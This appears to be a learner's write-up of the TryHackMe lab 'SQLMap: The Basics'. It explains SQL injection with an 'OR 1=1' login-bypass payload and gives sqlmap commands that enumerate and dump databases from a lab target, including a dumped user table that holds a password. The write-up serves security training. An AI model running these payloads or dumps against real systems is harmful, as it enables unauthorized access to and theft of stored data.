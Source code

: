 
### **TryHackMe: Cyber Security 101**

**Room:** `SQLMap: The Basics`  
**Status:** Completed  
**Date:** 2025-08-20

----------

### **Goal**

Understand the fundamentals of SQL injection, learn how SQLMap automates detection and exploitation of SQL injection vulnerabilities, and practice extracting database information from a vulnerable web application.

---------

### **Key Topics Covered**


## Key Topics Covered

### 1. Databases and SQL

Databases are structured collections of data that can be stored, modified, and retrieved efficiently. Websites and applications use databases to manage user information, such as login credentials and other application data. These databases are managed by Database Management Systems (DBMS) such as MySQL, PostgreSQL, SQLite, or Microsoft SQL Server, which understand SQL (Structured Query Language). Applications interact with the database by sending SQL queries.

For example, when a user logs into a website, the site might execute a query like:

    SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';

This query checks whether a user named John exists and whether the provided password matches. If both conditions are true, the database returns the user’s details to the application.

### 2. SQL Injection

SQL injection occurs when user input is not properly sanitized, allowing an attacker to manipulate SQL queries. This can lead to unauthorized access to sensitive information stored in databases.

For example, entering the following in a password field:

    abc' OR 1=1;-- -

would transform the original query into:

    SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';

Here’s the reasoning behind this injection:

-   The `OR 1=1` condition is always true, bypassing the need for the correct password.
    
-   The `-- -` comments out any remaining part of the original query, preventing syntax errors.
    
-   The single quote `'` ensures that the injected code is interpreted correctly within the SQL statement.
    

This allows attackers to log in as any user without knowing the password, demonstrating the severity of SQL injection vulnerabilities.

### 3. SQLMap Overview

SQLMap is an automated tool for detecting and exploiting SQL injection vulnerabilities. It simplifies the identification of weak points in web applications. The basic workflow involves:

1.  **Finding a vulnerable URL or request**:
    
    -   GET-based testing uses parameters in the URL to retrieve data.
        
    -   Example:

              sqlmap -u http://sqlmaptesting.thm/search/cat=1

  This command identifies possible SQL injection types on the target URL.
        
-   **Enumerating databases, tables, and records**:
    
    -   List databases:

            sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs

	- List tables in a database:

            sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users --tables
	
	- Dump table contents:

            sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D users -T thomas --dump

**POST-based testing**:

-   Used for login or registration forms where data is sent in the request body.
    
-   Requires intercepting the request and saving it as a text file:

          sqlmap -r intercepted_request.txt

### 4. Practical Exercise: Testing a Vulnerable Site

I tested a fake vulnerable site provided by TryHackMe with a login form. My steps included:

1.  Opened the developer tools and navigated to the Network tab.
    
2.  Submitted the login form to capture the GET request:

          http://10.10.186.52/ai/includes/user_login?email=email&password=password

3.  Used SQLMap commands to explore the database:
    

-   **Retrieve databases**:

        sqlmap -u 'http://10.10.186.52/ai/includes/user_login?email=email&password=password' --dbs

-   Output included: `ai`, `mysql`, `performance_schema`, `phpmyadmin`, `test`.
    
-   **List tables in the `ai` database**:

          sqlmap -u 'http://10.10.186.52/ai/includes/user_login?email=email&password=password' -D ai --tables

-   Output: `user`
    
-   **Dump table contents**:

          sqlmap -u 'http://10.10.186.52/ai/includes/user_login?email=email&password=password' -D ai -T user --dump

      Output:

        +------+-----------------+---------------------+------------+
        | id   | email           | created             | password   |
        +------+-----------------+---------------------+------------+
        | 1    | test@chatai.com | 2023-02-21 09:05:46 | 12345678   |
        +------+-----------------+---------------------+------------+


This practical reinforced how SQL injection vulnerabilities can be identified and exploited using SQLMap.

## What I Learned

-   SQL injection exploits improperly sanitized user input to manipulate database queries.
    
-   SQLMap automates detection, enumeration, and exploitation of SQL injection vulnerabilities.
    
-   GET and POST parameters can be tested differently depending on how data is sent.
    
-   Practical testing allows retrieving databases, table names, and table contents from vulnerable applications.
